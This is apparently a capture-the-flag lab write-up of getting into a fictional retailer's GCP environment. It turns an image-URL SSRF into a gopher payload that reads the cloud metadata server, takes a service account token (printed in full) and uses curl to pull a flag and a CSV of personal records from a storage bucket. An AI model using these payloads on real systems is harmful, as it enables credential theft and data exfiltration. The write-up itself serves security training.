 ```yaml
---
author: Nithissh S
pubDatetime: 2024-05-11T15:22:00Z
modDatetime: 2024-05-11T09:12:47.400Z
title: GCP Initial Access through SSRF via gopher protocol
slug: gcp-initial-access-gopher-ssrf
featured: true
draft: false
tags:
  - GCP
  - SSRF
  - Gopher
  - Service account 
description:
  The scenario of the lab is that You have recently joined a red team and are on an engagement for the client Gigantic Retail. In scope is their on-premise and cloud environments. As the cloud specialist, you are called upon to get initial access to their infrastructure, starting with an identified IP address.
---
```


## Introduction 

Exploit SSRF with Gopher for GCP Initial Access - A red team engagement scenario involves gaining access to Gigantic Retail's infrastructure. After identifying an IP address (35.226.245.121), exploiting SSRF through the website's image URL functionality leads to access of Google Cloud Platform (GCP) metadata. Constructing a gopher payload and passing it through the URL parameter successfully reveals internal paths and service account information. Accessing the service account token allows further exploration, leading to the discovery of sensitive files like 'flag.txt' and 'user_data.csv' hosted on Google Storage. Retrieving the flag and user data discloses valuable information for the engagement.

 
## Initial Entry point  

| | |
| --- | --- |
| **Type** | **Value** |
| IP Address | 35.226.245.121<br> |


## Solution

 

With the IP Address, I’ve tried to access it directly and found that port 80 is open and hosts a kind of retail website 

 

![](../Files/ssrf.png) 

 

Exploring further, we also found a shop inside the website where we can buy, checkout and purchase 

 

![](../Files/ssrf-1.png) 

 

But there is an interesting functionality where you can specify your profile from a remote URL which is an interesting place to start looking out for SSRF

 

![](../Files/ssrf2.png)  

 

Intercepting the request and looking into the source of the website 

 

![](../Files/ssrf3.png) 

 

In the above, as you can see when we pass the image URL to fetch the image.. it calls through `url` parameter and then looks into the source, where you can see inside `<script>` we have `document.addEventListener('DOMContentLoaded', function() {...})` where it will wait until HTML content to be loaded and once it loaded it tells the `profile-photo` element where it sets it to `url` which we passed

 

But when u pass some reachable URL we may receive a pingback and even though it says “Not an Image”

 

In the Image URL replayed the value with the following URL [http://metadata.google.internal](http://metadata.google.internal "http://metadata.google.internal") which is the metadata for Google cloud just like in AWS which is `169.254.169.254` and URL processed and discloses `computeMetadata` in the response

 

![](../Files/ssrf4.png) 

 

But results in 403 when we tried to hit the [http://metadata.google.internal/computeMetadata/v1/](http://metadata.google.internal/computeMetadata/v1/) because we have to pass the header value which is `Metadata-Flavor: Google`⁠

 

 

![](../Files/ssrf5.png) 

 

 

But even after passing the header `Metadata-Flavor: Google` we are still receiving the 403

 

![](../Files/ssrf6.png)  

 

Looking into the following blog [here](https://blog.codydmartin.com/gcp-cloud-function-abuse/ "https://blog.codydmartin.com/gcp-cloud-function-abuse/") from Cody about abusing Google Cloud functions through gopher and got an idea of constructing the gopher payload but we need how the internal request looks like 

 

```sh
GET /computeMetadata/v1 HTTP/1.1
Host: metadata.google.internal
Accept: */*
Metadata-Flavor: Google
```

 

Converting this HTTP request into the gopher

 

```bash
gopher://metadata.google.internal:80/xGET%2520/computeMetadata/v1/%2520HTTP%252f%2531%252e%2531%250AHost:%2520metadata.google.internal%250AAccept:%2520%252a%252f%252a%250aMetadata-Flavor:%2520Google%250d%250a
```

 

When passing the payload through the `url` parameter we didn’t 403 instead our request was successfully parsed disclosing the execution and further paths inside cloud metadata 

 

![](../Files/ssrf7.png) 

 

Accessing `/instance` further reveals internal paths and we have to access `service-accounts` 

 

![](../Files/ssrf8.png) 

 

Accessing that `service-accounts` reveals that other than `default` we have other one service account which is [bucketviewer@gr-proj-1.iam.gserviceaccount.com](mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com "mailto:bucketviewer@gr-proj-1.iam.gserviceaccount.com") 

 

 

![](../Files/ssrf9.png) 

 

> Service accounts in Google Cloud Platform (GCP) are special types of accounts used to grant specific permissions to applications, virtual machines, and other services within GCP, enabling them to interact with other Google Cloud services

 

Adding to that `/service-accounts/bucketviewer@gr-proj-1.iam.gserviceaccount.com/token` will reveal the token of the specific account just like iam credentials in AWS via metadata 

 

![](../Files/ssrf11.png) 

 

Checked the token using the curl command and found that the token is valid and online 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Content-Type: application/x-www-form-urlencoded" -d "access_token=ya29.c.c0AY_VpZgBbzy_M8iNeYS9J1McBJnQAPLsAUQ27C6g07VyUz3FPe_sIi5GJtPDpMHZcnSF8jVjuNyIpfpMvJ6b619ENrMbUXosdRvOqzpDqTAg2HmVJw14RvAmynCsx3MzQcsWq_hpKCVjlXZo7ymOop1CuHMbi7II2Gd7HxigAaHbqDCu5nlAJxYARFfri3g9avb3N4B4UFfiBMCbhQp6U1YG5-lOI-H0RsYxBSySHv5TelWXDQRC3giFz7H6yg50mV3A7Rw5f108qY89BL3je6vGoPxmBX63a-OO6Sj3UxmwidYZms9oVtjIXJOl_V95ktagGehAvNamq0ICOLmLrvWLLAqLbIcyD7OgurWcxrM3IWTIUgMrC8C7vXhzMJB2T393Kde48XIUag5loxhk3o1s8kMv8b5ZnV8j4fsYZF11RR7eixWetn4iJMYxQg0g3Z7ucBu7u_p2w49M0f07435yqpRet6y_raxBwZik_b_lpod3ZV1e7byo7XzmqYFYWcjUnort8Xp2sSI7_gnj_YVzdsQRYXQ663MylV3XYOdZ-mck6911SdSpvrwSoV9sY2I0fXWyaIYIZn6bjt2x4zn7kcYXBxaiBz6dJRuwik0f2yg1mWbXhc4da04xqY3Q-3hSX1eolcisuvFsyIZ-5ww80r0_IvR3oWdnhMkvslxoo1kwm61cRYcj1r0hOR91Iu8BnebUz8F9t1kRs6WxJxm0idI1B8J9kOmhF0y2Zs-B01993vatMBofkhcu7pp0r6dieb3VBXY3yS6bmSh4Syrjlp87xJ5o6dQ-iVJsUpb8B7S4ucnRdzyJWpbvhgxW9i1F15vwof6wIy5Srtqpcdr6agphwbRdQWeZuBQ1mp7xrtuV0jxtRu5daxBwZX9Z7QdfV5-Iq5fQB1kOo9dYFQSQ5yY818xtvySeRqunt2VXRlm2bwMs3-w9_WcO_RcSwXn01fleM7u2IS3pq-onh9Y3tM9XSFah6SeY48bOfo3fUyYSqk7rIm1" https://www.googleapis.com/oauth2/v1/tokeninfo

{
 "issued_to": "113150342444479982060",
 "audience": "113150342444479982060",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 2507,
 "access_type": "online"
}
```

 

Further, we know that the images for the shop website are being hosted here 

 

![](../Files/ssrf10.png) 

 

 

From Google docs [here](https://cloud.google.com/storage/docs/authentication#apiauth "https://cloud.google.com/storage/docs/authentication#apiauth"), we gotta know about an API call to access Google storage buckets 

 

```sh
curl -H "Authorization: Bearer $GOOGLE_TOKEN" "https://storage.googleapis.com/storage/v1/b/gigantic-retail/o"
```

 

Got to know the information about the objects and received a huge chunk of data but these two look interesting interesting 

 

```json
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/flag.txt/1703771329072518",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media",
 "name": "userdata/flag.txt",
 "bucket": "gigantic-retail",
 "generation": "1703771329072518",
 "metageneration": "1",
 "contentType": "text/plain",
 "storageClass": "STANDARD",
 "size": "33",
 "md5Hash": "J+PDkjepBufLwKoiCflv2w==",
 "crc32c": "/H+7+Q==",
 "etag": "CIab5OaisoMDEAE=",
 "timeCreated": "2023-12-28T13:48:49.125Z",
 "updated": "2023-12-28T13:48:49.125Z",
 "timeStorageClassUpdated": "2023-12-28T13:48:49.125Z"
 },
 {
 "kind": "storage#object",
 "id": "gigantic-retail/userdata/user_data.csv/1703877006716190",
 "selfLink": "https://www.googleapis.com/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv",
 "mediaLink": "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media",
 "name": "userdata/user_data.csv",
 "bucket": "gigantic-retail",
 "generation": "1703877006716190",
 "metageneration": "1",
 "contentType": "text/csv",
 "storageClass": "STANDARD",
 "size": "2388",
 "md5Hash": "JMvLqhSoe2s9FX6JlXGmxw==",
 "crc32c": "2XJ9cA==",
 "etag": "CJ7a572stYMDEAE=",
 "timeCreated": "2023-12-29T19:10:06.754Z",
 "updated": "2023-12-29T19:10:06.754Z",
 "timeStorageClassUpdated": "2023-12-29T19:10:06.754Z"
 }
```

 

Accessing `mediaLink` with the same curl command with little correction will reveal the flag 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fflag.txt?generation=1703771329072518&alt=media"

9cee2dec5c28e047022f8ba9e0d7ca62
```

 

You can ask what is the other interesting file which is user data disclosure where it highlights during ur pentest 

 

```sh
lunat1c@DESKTOP-PPC1SO9:/mnt/c/Users/nithi$ curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/download/storage/v1/b/gigantic-retail/o/userdata%2Fuser_data.csv?generation=1703877006716190&alt=media"


Name,Address,PhoneNumber,Email,Job Title,Company
John Doe,123 Main St, Seattle, WA 98101,555-1234,john.doe@novasoft.com,Software Engineer,Nova Software Solutions
Jane Smith,456 Oak Ave, Boston, MA 02110,555-5678,jane.smith@bluebaytech.com,Project Manager,Blue Bay Technologies
Bob Johnson,789 Pine Rd, Austin, TX 78701,555-9012,bob.johnson@creativedge.com,Graphic Designer,Creative Edge Design
Alice Williams,101 Cedar Lane, Denver, CO 80202,555-3456,alice.williams@peakhr.com,HR Specialist,Peak Human Resources
Charlie Brown,202 Maple Blvd, Chicago, IL 60601,555-7890,charlie.brown@marketgenius.com,Marketing Director,Market Genius Inc.
Emily Davis,303 Elm Street, San Francisco, CA 94102,555-2345,emily.davis@zenithfinance.com,Financial Analyst,Zenith Finance
Michael Miller,404 Birch Lane, New York, NY 10001,555-6789,michael.miller@techfrontier.com,IT Consultant,Tech Frontier
Olivia Wilson,505 Pinecrest Rd, Miami, FL 33101,555-0123,olivia.wilson@sunrealty.com,Real Estate Agent,Sunshine Realty
David Taylor,606 Oakwood Ave, Philadelphia, PA 19106,555-4567,david.taylor@arcopartners.com,Architect,Arco Partners
Sophia Anderson,707 Maple Court, Las Vegas, NV 89101,555-8901,sophia.anderson@nextstepsales.com,Sales Manager,Next Step Sales
Daniel Harris,808 Cedar Rd, Atlanta, GA 30301,555-2341,daniel.harris@webworlddev.com,Web Developer,Web World Development
Grace Thomas,909 Birch Blvd, Minneapolis, MN 55401,555-6785,grace.thomas@biogenresearch.com,Clinical Researcher,Biogen Research Labs
Isaac Martinez,1010 Oak Lane, Portland, OR 97201,555-0129,isaac.martinez@eduworld.com,Teacher,EduWorld Schools
Ella Rodriguez,1111 Pine Ave, Dallas, TX 75201,555-4563,ella.rodriguez@mediavista.com,Journalist,Media Vista
James Smith,1212 Cedar Street, Orlando, FL 32801,555-8907,james.smith@legalpros.com,Attorney,Legal Pros LLP
Ava Johnson,1313 Elm Rd, Phoenix, AZ 85001,555-2349,ava.johnson@idinteriors.com,Interior Designer,Innovative Designs
Liam Davis,1414 Maple Lane, Raleigh, NC 27601,555-6783,liam.davis@gourmetchef.com,Chef,Gourmet Chef Culinary
Mia Wilson,1515 Pine Blvd, Cleveland, OH 44101,555-0127,mia.wilson@sigmapharma.com,Pharmacist,Sigma Pharmacy
Noah Taylor,1616 Birch Ave, Nashville, TN 37201,555-4561,noah.taylor@truetecheng.com,Engineer,TrueTech Engineering
Sophie Brown,1717 Oakwood Rd, Kansas City, MO 64101,555-8905,sophie.brown@fitnation.com,Fitness Trainer,FitNation
```